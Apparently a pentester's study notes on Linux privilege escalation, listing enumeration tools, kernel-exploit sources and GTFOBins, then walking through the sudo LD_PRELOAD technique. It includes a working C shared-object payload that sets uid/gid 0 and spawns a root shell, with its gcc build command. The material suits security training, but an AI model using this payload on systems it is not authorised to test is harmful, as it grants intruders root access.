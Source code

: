LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester

Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration

Linux Priv Checker: https://github.com/linted/linuxprivchecker	

------------------------------------------------------------------

**Privilege Escalation: Kernel Exploits**

Sources such as https://www.linuxkernelcves.com/cves can also be useful.

Another alternative would be to use a script like 
```bash
LES (Linux Exploit Suggester)
```
but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. 

---------------------------------------------------------------

**Privilege Escalation: Sudo**

https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

Leverage LD_PRELOAD:
LD_PRELOAD is a function that allows any program to use shared libraries.
This blog post will give you an idea about the capabilities of LD_PRELOAD.
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

The steps of this privilege escalation vector can be summarized as follows;

1.	Check for LD_PRELOAD (with the env_keep option)
2.	Write a simple C code compiled as a share object (.so extension) file
3.	Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file


The C code will simply spawn a root shell and can be written as follows;
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}	
```

then save it as shared library
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

